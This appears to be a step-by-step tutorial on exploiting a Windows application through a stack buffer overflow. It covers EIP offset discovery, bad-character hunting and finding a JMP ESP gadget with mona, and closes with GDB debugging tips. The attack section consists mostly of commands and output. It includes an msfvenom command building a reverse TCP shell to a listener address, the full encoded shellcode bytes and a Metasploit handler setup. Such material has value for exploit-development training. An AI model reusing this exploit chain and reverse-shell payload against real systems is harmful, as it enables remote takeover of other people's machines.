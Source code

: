 # Buffer overflow (BOF)

This is a step-by-step exploitng a windows applciation vulnerable to BOF

Create a unique pattern and feed the exploit with this to identify the exact position of EIP. In the example it will be create a unique string of 2700 chars

```
$ msf-pattern_create -l 2700
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8A....
```

Open the vulnerable applciation on Immunity Debugger and execute. Check the EIP value, in this example it shows
```
39 69 44 38
```

# Find exact string position where EIP will be overwritten

Feed the values that is on EIP register to find the offset
```
> msf-pattern_offset.rb -q 39694438
[*] Exact match at offset 2606
```
In this example it will take 2606 chars until it gets to the EIP register. For example, if we want to fill the EIP register with B's we would send this string:
```
string = "A" * 2606 + "BBBB" + "C" * 500
```

Now that we control the  EIP we can manipulate the program flow. We can make the program execute a shell code that we want

# Size of shellcode
Keep in mind that sometimes we need to care about the Shellcode size. 
ShellCode for a reverse _tcp.
350 and 400 bytes of space

# Finding bad chars Bad Chars
Buffer Overlow when using string copy: 
	- null hex code: 00 (because it flag end of the string so everything after the null byte will be ignored)
	- 0x0D (return carriage)
	- ax0A (line feed)

Send all chars from \x00 to \xFF and manually check in the memory dump each value if it's in the correct order.
Let's say that you look into the memory dumo and see: "\x00\x01\xB0" in this case the char after \x01 should be \x02 but we got \B0. 

It means that \x02 is a bad char, remove the \x02 from the string and send it again. Repeat the process until all bad chars are gone.

"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

# Find modules and dlls used by a program, in this way I can try to use a DLL do JMP to my ESP
We a looking for a DLL that was compiled without ASLR, SafeSEH, NXCompat
!mona modules
!mona find -s "\xff\xe4" -m slmfc.dll

# Finding out opcode for each instructions
it makes easier to search inside the debugger for this instruction

> /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
nasm > jmp esp
00000000  FFE4              jmp esp

# Creating a shellcode
> msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.240 LPORT=443 -f c -a x86 --platform windows -b '\x00\x0d\x0a' -e x86/shikata_ga_nai
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of c file: 1500 bytes
unsigned char buf[] = 
"\xd9\xed\xb8\x08\x9c\xb4\xea\xd9\x74\x24\xf4\x5a\x31\xc9\xb1"
"\x52\x31\x42\x17\x83\xea\xfc\x03\x4a\x8f\x56\x1f\xb6\x47\x14"
"\xe0\x46\x98\x79\x68\xa3\xa9\xb9\x0e\xa0\x9a\x09\x44\xe4\x16"
"\xe1\x08\x1c\xac\x87\x84\x13\x05\x2d\xf3\x1a\x96\x1e\xc7\x3d"
"\x14\x5d\x14\x9d\x25\xae\x69\xdc\x62\xd3\x80\x8c\x3b\x9f\x37"
"\x20\x4f\xd5\x8b\xcb\x03\xfb\x8b\x28\xd3\xfa\xba\xff\x6f\xa5"
"\x1c\xfe\xbc\xdd\x14\x18\xa0\xd8\xef\x93\x12\x96\xf1\x75\x6b"
"\x57\x5d\xb8\x43\xaa\x9f\xfd\x64\x55\xea\xf7\x96\xe8\xed\xcc"
"\xe5\x36\x7b\xd6\x4e\xbc\xdb\x32\x6e\x11\xbd\xb1\x7c\xde\xc9"
"\x9d\x60\xe1\x1e\x96\x9d\x6a\xa1\x78\x14\x28\x86\x5c\x7c\xea"
"\xa7\xc5\xd8\x5d\xd7\x15\x83\x02\x7d\x5e\x2e\x56\x0c\x3d\x27"
"\x9b\x3d\xbd\xb7\xb3\x36\xce\x85\x1c\xed\x58\xa6\xd5\x2b\x9f"
"\xc9\xcf\x8c\x0f\x34\xf0\xec\x06\xf3\xa4\xbc\x30\xd2\xc4\x56"
"\xc0\xdb\x10\xf8\x90\x73\xcb\xb9\x40\x34\xbb\x51\x8a\xbb\xe4"
"\x42\xb5\x11\x8d\xe9\x4c\xf2\xb8\xe6\x4e\xf2\xd5\xfa\x4e\xf3"
"\x9e\x72\xa8\x99\xf0\xd2\x63\x36\x68\x7f\xff\xa7\x75\x55\x7a"
"\xe7\xfe\x5a\x7b\xa6\xf6\x17\x6f\x5f\xf7\x6d\xcd\xf6\x08\x58"
"\x79\x94\x9b\x07\x79\xd3\x87\x9f\x2e\xb4\x76\xd6\xba\x28\x20"
"\x40\xd8\xb0\xb4\xab\x58\x6f\x05\x35\x61\xe2\x31\x11\x71\x3a"
"\xb9\x1d\x25\x92\xec\xcb\x93\x54\x47\xba\x4d\x0f\x34\x14\x19"
"\xd6\x76\xa7\x5f\xd7\x52\x51\xbf\x66\x0b\x24\xc0\x47\xdb\xa0"
"\xb9\xb5\x7b\x4e\x10\x7e\x8b\x05\x38\xd7\x04\xc0\xa9\x65\x49"
"\xf3\x04\xa9\x74\x70\xac\x52\x83\x68\xc5\x57\xcf\x2e\x36\x2a"
"\x40\xdb\x38\x99\x61\xce";

# Waiting for a reverse shell
Open metasploit and use the same payload that was used to create the shellcode and listen for the connection.
Sometimes, listening only with Netcat is not enough

```use exploit/multi/handler```





##Methodology

1. Investigate the file
```
file
strings
```

2. Test it out - what does the program do?

3. Look at its functions in GDB

```
info functions
```

4. Look at the assembly of a function

```
disass main
disass otherfunction
```

5. Look for the flow of the program. Look for cmp

6. Set up breakpoints with hooks

```
define hook-stop
info registers  ;show the registers
x/24xw $esp  ;show the stack
x/2i $eip  ;show the new two instructions
end
```

7. Step through the whole program. Or at the breakpoints

```
si ;steps one forward, but follows functions
ni ;does not follow functions
```
